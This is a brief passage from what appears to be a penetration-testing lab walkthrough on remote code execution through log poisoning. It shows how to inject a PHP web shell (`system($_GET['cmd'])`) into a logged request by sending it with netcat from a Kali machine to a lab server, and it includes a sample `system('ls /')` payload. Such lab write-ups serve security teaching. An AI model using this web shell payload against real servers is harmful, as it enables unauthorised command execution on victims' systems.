

4.1.1 Remote Code Execution
As the User-Agent header is being logged, we are going to change its value to a malicious PHP code and send it to the server.
RCE vulnerability allows an attacker to execute commands remotely on the victim system.
Below PHP function system() accepts a command as a parameter and displays its result as output.
<?php system('ls /'); ?>
1. Run the following on your Kali Machine.
$ nc 192.168.12.70 80
GET <?php system($_GET['cmd']); ?>
Output:

Now you already can execute commands on the victim's machine.